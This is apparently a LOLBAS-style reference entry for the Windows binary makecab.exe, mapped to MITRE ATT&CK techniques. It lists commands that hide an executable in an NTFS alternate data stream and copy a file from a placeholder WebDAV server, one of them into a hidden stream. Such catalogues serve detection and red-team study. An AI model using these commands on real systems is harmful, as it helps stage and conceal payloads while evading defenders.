 ## Makecab.exe

* Functions: Package, Add ADS, Download

```
makecab c:\ADS\autoruns.exe c:\ADS\cabtest.txt:autoruns.cab    

makecab \\webdavserver\webdav\file.exe C:\Folder\file.cab    
   
makecab \\webdavserver\webdav\file.exe C:\Folder\file.txt:file.cab
```

Acknowledgements:
* Oddvar Moe - @oddvarmoe

Code sample:
* 

Resources:
* https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f

Full path:
```
c:\windows\system32\makecab.exe
c:\windows\sysWOW64\makecab.exe
```

Notes:



 
MITRE ATT&CK:
* [NTFS File Attributes](https://attack.mitre.org/wiki/Technique/T1096)
* [Remote File Copy](https://attack.mitre.org/wiki/Technique/T1105)

